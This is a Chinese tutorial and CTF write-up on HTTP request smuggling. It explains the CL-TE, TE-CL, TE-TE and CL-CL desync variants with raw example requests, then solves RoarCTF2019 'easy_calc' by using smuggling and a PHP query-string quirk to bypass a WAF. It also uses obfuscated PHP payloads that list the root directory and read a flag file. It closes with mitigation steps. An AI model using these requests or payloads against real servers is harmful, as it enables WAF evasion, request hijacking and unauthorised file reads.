


# 从一道题到协议层攻击之 HTTP 请求走私 - 先知社区

从一道题到协议层攻击之 HTTP 请求走私

- - -

### 0x00 写在前面

之前一次线上赛，遇到一道 Web 题，涉及了 HTTP 请求走私。由于之前未学习过，从而我展开了 HTTP 请求走私的学习之旅。

### 0x01 HTTP 请求走私是什么

HTTP 请求走私是一种干扰网站处理从一个或多个用户接收的 HTTP 请求序列的方式的技术。使攻击者可以绕过安全控制，未经授权访问敏感数据并直接危害其他应用程序用户。

### 0x02 为什么会产生 HTTP 请求走私

**请求走私漏洞成因**

> 前端服务器 (CDN) 和后端服务器接收数据不同步，引起对客户端传入的数据理解不一致，从而导致漏洞的产生。

大多数 HTTP 请求走私漏洞的出现是因为 HTTP 规范提供了两种不同的方法来指定请求的结束位置：`Content-Length`标头和`Transfer-Encoding`标头。  
同时使用两种不同的方法时，`Content-Length`无效。当使用多个服务器时，对客户端传入的数据理解不一致时，就会出现有些服务器认为`Content-Length`的长度有效，有些以`Transfer-Encoding`有效。而一般情况下，反向代理服务器与后端的源站服务器之间，会重用 TCP 链接。这样超出的长度就会拼接到下一次请求进行请求，从而导致 HTTP 请求走私漏洞。

**RFC2616 规范**

> 如果接收的消息同时包含传输编码头字段 (Transfer-Encoding) 和内容长度头 (Content-Length) 字段，则必须忽略后者。

由于规范默许可以使用`Transfer-Encoding`和`Content-Length`处理请求，因此很少有服务器拒绝此类请求。每当我们找到一种方法，将`Transfer-Encoding`隐藏在服务端的一个`chain`中时，它将会回退到使用`Content-Length`去发送请求。

**走私攻击实现**  
当向代理服务器发送一个比较模糊的 HTTP 请求时，由于两者服务器的实现方式不同，代理服务器可能认为这是一个 HTTP 请求，然后将其转发给了后端的源站服务器，但源站服务器经过解析处理后，只认为其中的一部分为正常请求，剩下的那一部分，就算是走私的请求，当该部分对正常用户的请求造成了影响之后，就实现了 HTTP 走私攻击。

#### 扩展：为什么会出现多次请求

这与最为广泛的 HTTP 1.1 的协议特性——`Keep-Alive&Pipeline`有关。  
在`HTTP1.0`之前的协议设计中，客户端每进行一次 HTTP 请求，需要同服务器建立一个 TCP 链接。  
而现代的 Web 页面是由多种资源组成的，要获取一个网页的内容，不仅要请求 HTML 文档，还有 JS、CSS、图片等各种资源，如果按照之前的协议设计，就会导致 HTTP 服务器的负载开销增大。于是在`HTTP1.1`中，增加了`Keep-Alive`和`Pipeline`这两个特性。

**Keep-Alive**：在 HTTP 请求中增加一个特殊的请求头`Connection: Keep-Alive`，告诉服务器，接收完这次 HTTP 请求后，不要关闭`TCP链接`，后面对相同目标服务器的 HTTP 请求，重用这一个 TCP 链接。这样只需要进行一次 TCP 握手的过程，可以减少服务器的开销，节约资源，还能加快访问速度。这个特性在`HTTP1.1`中默认开启的。  
**Pipeline(http 管线化)**：http 管线化是一项实现了多个 http 请求但不需要等待响应就能够写进同一个 socket 的技术，仅有 http1.1 规范支持 http 管线化。在这里，客户端可以像流水线一样发送自己的`HTTP`请求，而不需要等待服务器的响应，服务器那边接收到请求后，需要遵循先入先出机制，将请求和响应严格对应起来，再将响应发送给客户端。

现在，浏览器默认不启用`Pipeline`的，但是一般的服务器都提供了对`Pipleline`的支持。  
下面这是典型的 CDN 加速图和拓扑结构图  
CDN 加速图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191027233501-56f060b8-f8cf-1.jpg)  
拓扑结构图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191027233515-5f360af2-f8cf-1.png)

### 0x03 如何执行 HTTP 请求走私攻击

HTTP 请求走私攻击涉及将`Content-Length`标头和`Transfer-Encoding`标头都放置在单个 HTTP 请求中并进行处理，以便前端服务器和后端服务器以不同的方式处理请求。完成此操作的确切方式取决于两个服务器的行为：

> CL.TE：前端服务器使用 Content-Length 标头，而后端服务器使用 Transfer-Encoding 标头。  
> TE.CL：前端服务器使用 Transfer-Encoding 标头，而后端服务器使用 Content-Length 标头。  
> TE.TE：前端服务器和后端服务器都支持 Transfer-Encoding 标头，但是可以通过对标头进行某种方式的混淆来诱导其中一台服务器不对其进行处理。

### 0x04 HTTP 请求走私攻击的五种方式

#### CL 不为 0

所有不携带请求体的 HTTP 请求都有可能受此影响。这里用 GET 请求举例。  
前端代理服务器允许 GET 请求携带请求体；后端服务器不允许 GET 请求携带请求体，它会直接忽略掉 GET 请求中的`Content-Length`头，不进行处理。这就有可能导致请求走私。

**构造请求示例**：

```bash
GET / HTTP/1.1\r\n
Host: test.com\r\n
Content-Length: 44\r\n

GET / secret HTTP/1.1\r\n
Host: test.com\r\n
\r\n
```

> `\r\n`是换行的意思，windows 的换行是`\r\n`，unix 的是`\n`，mac 的是`\r`

**攻击流程**：  
前端服务器收到该请求，读取`Content-Length`，判断这是一个完整的请求。  
然后转发给后端服务器，后端服务器收到后，因为它不对`Content-Length`进行处理，由于`Pipeline`的存在，后端服务器就认为这是收到了两个请求，分别是：

第一个：

```bash
GET / HTTP/1.1\r\n
Host: test.com\r\n
```

第二个：

```bash
GET / secret HTTP/1.1\r\n
Host: test.com\r\n
```

所以造成了请求走私。

#### CL-CL

**RFC7230 规范**

> 在 RFC7230 的第 3.3.3 节中的第四条中，规定当服务器收到的请求中包含两个`Content-Length`，而且两者的值不同时，需要返回 400 错误。

有些服务器不会严格的实现该规范，假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回 400 错误。  
但是中间代理服务器按照第一个`Content-Length`的值对请求进行处理，而后端源站服务器按照第二个`Content-Length`的值进行处理。  
**构造请求示例**：

```bash
POST / HTTP/1.1\r\n
Host: test.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```

**攻击流程**：  
中间代理服务器获取到的数据包的长度为 8，将上述整个数据包原封不动的转发给后端的源站服务器。  
而后端服务器获取到的数据包长度为 7。当读取完前 7 个字符后，后端服务器认为已经读取完毕，然后生成对应的响应，发送出去。而此时的缓冲区去还剩余一个字母`a`，对于后端服务器来说，这个`a`是下一个请求的一部分，但是还没有传输完毕。  
如果此时有一个其他的正常用户对服务器进行了请求：

```bash
GET /index.html HTTP/1.1\r\n
Host: test.com\r\n
```

因为代理服务器与源站服务器之间一般会重用 TCP 连接。所以正常用户的请求就拼接到了字母`a`的后面，当后端服务器接收完毕后，它实际处理的请求其实是：

```bash
aGET /index.html HTTP/1.1\r\n
Host: test.com\r\n
```

这时，用户就会收到一个类似于`aGET request method not found`的报错。这样就实现了一次 HTTP 走私攻击，而且还对正常用户的行为造成了影响，而且还可以扩展成类似于 CSRF 的攻击方式。

但是一般的服务器都不会接受这种存在两个请求头的请求包。该怎么办呢？  
所以想到前面所说的  
**RFC2616 规范**

> 如果收到同时存在`Content-Length`和`Transfer-Encoding`这两个请求头的请求包时，在处理的时候必须忽略`Content-Length`。

所以请求包中同时包含这两个请求头并不算违规，服务器也不需要返回 400 错误。导致服务器在这里的实现更容易出问题。

#### CL-TE

CL-TE，就是当收到存在两个请求头的请求包时，前端代理服务器只处理`Content-Length`请求头，而后端服务器会遵守`RFC2616`的规定，忽略掉`Content-Length`，处理`Transfer-Encoding`请求头。

**chunk 传输数据 (size 的值由 16 进制表示)**

```bash
[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0][\r\n][\r\n]
```

**chunked 编码**  
参考：[http 协议中 content-length 以及 chunked 编码分析](https://blog.csdn.net/yankai0219/article/details/8269922)  
**构造请求示例**：

```bash
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
a
```

连续发送几次请求就可以获得响应。  
**攻击流程**：  
由于前端服务器处理`Content-Length`，所以这个请求对于它来说是一个完整的请求，请求体的长度为 6，也就是

```bash
0\r\n
\r\n
a
```

当请求包经过代理服务器转发给后端服务器时，后端服务器处理`Transfer-Encoding`，当它读取到

```bash
0\r\n
\r\n
```

认为已经读取到结尾了。  
但剩下的字母`a`就被留在了缓冲区中，等待下一次请求。当我们重复发送请求后，发送的请求在后端服务器拼接成了类似下面这种请求：

```bash
aPOST / HTTP/1.1\r\n
Host: test.com\r\n
......
```

服务器在解析时就会产生报错了，从而造成 HTTP 请求走私。

#### TE-CL

TE-CL，就是当收到存在两个请求头的请求包时，前端代理服务器处理`Transfer-Encoding`请求头，后端服务器处理`Content-Length`请求头。  
**构造请求示例**：

```bash
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

**攻击流程**：  
前端服务器处理`Transfer-Encoding`，当其读取到

```bash
0\r\n
\r\n
```

认为是读取完毕了。  
此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理`Content-Length`请求头，因为请求体的长度为`4`.也就是当它读取完

```bash
12\r\n
```

就认为这个请求已经结束了。后面的数据就认为是另一个请求：

```bash
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

成功报错，造成 HTTP 请求走私。

#### TE-TE

TE-TE，当收到存在两个请求头的请求包时，前后端服务器都处理`Transfer-Encoding`请求头，确实是实现了 RFC 的标准。不过前后端服务器不是同一种。这就有了一种方法，我们可以对发送的请求包中的`Transfer-Encoding`进行某种混淆操作 (如某个字符改变大小写)，从而使其中一个服务器不处理`Transfer-Encoding`请求头。在某种意义上这还是`CL-TE`或者`TE-CL`。  
**构造请求示例**：

```bash
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

**攻击流程**：  
前端服务器处理`Transfer-Encoding`，当其读取到

```bash
0\r\n
\r\n
```

认为是读取结束。  
此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器处理`Transfer-encoding`请求头，将`Transfer-Encoding`隐藏在服务端的一个`chain`中时，它将会回退到使用`Content-Length`去发送请求。读取到

```bash
5c\r\n
```

认为是读取完毕了。后面的数据就认为是另一个请求：

```bash
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

成功报错，造成 HTTP 请求走私。

### 0x05 HTTP 请求走私实战

在我学 HTTP 请求走私之前，正是因为碰到一道 Web 题要使用 HTTP 请求走私。现在复现一下

#### RoarCTF2019-Web：easy\_calc

进去发现是个计算器  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191027233636-8fec9f4e-f8cf-1.png)  
这道题是国赛的 love\_math 的修改版。国赛题`love_math`参考 Smi1e 师傅的 Writeup：[国赛 love\_math 题解](https://www.smi1e.top/%E5%9B%BD%E8%B5%9Blove_math%E9%A2%98%E8%A7%A3/)  
输入`calc.php`，发现了网站源码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191027233708-a29c6598-f8cf-1.png)  
这道题除去了长度限制，payload 中不能包含

> ' ', '\\t', '\\r', '\\n',''', '"', '\`', '\[', '\]'等字符

师傅的 Writeup 还说网站加了 waf，需要绕过 waf。所以还需要绕过 waf，测试发现当我们提交一些字符时，会直接`403`。`403`？！应该就是走私报错了，经测试发现的确存在服务器存在 http 走私漏洞，可以用来绕 waf。

因禁了一些字符，所以不能直接 getflag，需要继续分析 payload 构造。

##### 相关 PHP 函数

**scandir() 函数**  
返回指定目录中的文件和目录的数组。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191027233746-b99563f8-f8cf-1.png)  
**base\_convert() 函数**  
在任意进制之间转换数字。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191027233806-c577730a-f8cf-1.png)  
**dechex() 函数**：把十进制转换为十六进制。  
**hex2bin() 函数**：把十六进制值的字符串转换为 ASCII 字符。  
**readfile() 函数**  
输出一个文件。  
该函数读入一个文件并写入到输出缓冲。若成功，则返回从文件中读入的字节数。若失败，则返回 false。您可以通过 @readfile() 形式调用该函数，来隐藏错误信息。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191027233832-d517e98e-f8cf-1.png)

##### HTTP 走私绕过 WAF

**测试示例**  
*1、HTTP 请求走私测试 2(CL-CL 漏洞)*  
两个 CL 直接导致前端转发的服务器 400，而且完整转发了 post 包给后端。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191027234044-23ace004-f8d0-1.png)  
*2、HTTP 请求走私测试 1(CL-TE 漏洞)*  
CL 和 TE 直接导致前端转发的服务器 400，而且完整转发了 post 包给后端。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191027234110-32ecbe54-f8d0-1.png)  
其它几种请求走私依旧可以，就不测试了。

**构造 payload 获得 Flag**  
使用`scandir()函数`、`readfile()函数`、`base_convert()函数`、`dechex() 函数`、`hex2bin() 函数`（`chr()函数`）  
36 进制`scandir`\->10 进制 61693386291  
36 进制`readfile`\->10 进制 2146934604002  
ascii 码`/`\->16 进制 2f->10 进制 47  
36 进制 f1agg->10 进制 25254448(读取根目录得到的)  
*1、列目录*  
首先要使用`scandir()函数`，尝试构造 payload 列举根目录下的文件。  
`scandir()`可以用`base_convert()函数`构造，但是利用`base_convert()`只能解决`a~z`的利用。  
因为根目录需要`/`符号，且不在`a~z`,所以需要`hex2bin(dechex(47))`这种构造方式，`dechex() 函数`把十进制数转换为十六进制数。`hex2bin() 函数`把十六进制值的字符串转换为 ASCII 字符。当然，也可以直接用`chr()函数`

payload

```bash
var_dump(base_convert(61693386291,10,36)(chr(47)))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191027234136-42b38e6c-f8d0-1.png)  
*2、读取 flag*

payload

```bash
var_dump(base_convert(2146934604002,10,36)(chr(47).base_convert(25254448,10,36)))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191027234157-4efd00ae-f8d0-1.png)

##### PHP 字符串解析特性绕过 WAF

输入时发现 num 只能输入数字，输入字符无法解析。  
这里可以利用 php 的字符串解析特性绕过 bypass：[利用 PHP 的字符串解析特性 Bypass](https://www.freebuf.com/articles/web/213359.html)

> PHP 需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：  
> 1.删除空白符  
> 2.将某些字符转换为下划线（包括空格）

所以我们可以在 num 前加个空格绕过 waf

```bash
http://www.xxx.com/index.php? num=aaaa
```

现在的变量叫“num”，而不是“num”。但 php 在解析的时候，会先把空格给去掉，这样代码还能正常运行，还上传了非法字符。  
然后再利用`scandir()`函数，列出 `参数目录` 中的文件和目录。  
首先，要先扫根目录下的所有文件，也就是是`scandir("/")`,因为`/`被过滤了，所以直接用`chr(“47”)`绕过。  
发现`flagg文件`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191027234317-7e880238-f8d0-1.png)  
然后再去读取这个文件就行了。payload：

```bash
calc.php? num=1;var_dump(readfile(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191027234339-8bc3be88-f8d0-1.png)

### 0x06 漏洞修复

1、将前端服务器配置为只使用 HTTP/2 与后端系统通信  
2、完全禁用后端连接重用来解决此漏洞的所有变体  
3、确保连接中的所有服务器运行具有相同配置的相同 web 服务器软件。  
4、彻底拒绝模糊的请求，并删除关联的连接。  
5、在 Burp Suite 中，你可以使用 Repeater 菜单禁用此行为，确保你选择的工具具有相同的功能。  
6、通过 Squid 之类的代理来测试他们的测试人员的流量以进行监控。破坏测试人员发起的任何走私攻击请求，确保对此漏洞做到全面杜绝。

### 0x07 写在后面

这次又学到了新的知识-HTTP 请求走私。了解了 HTTP 请求走私的五种方式，以及一些 PHP 函数的使用。HTTP 请求走私属于协议层攻击，是服务器漏洞的一种，应予以注意。
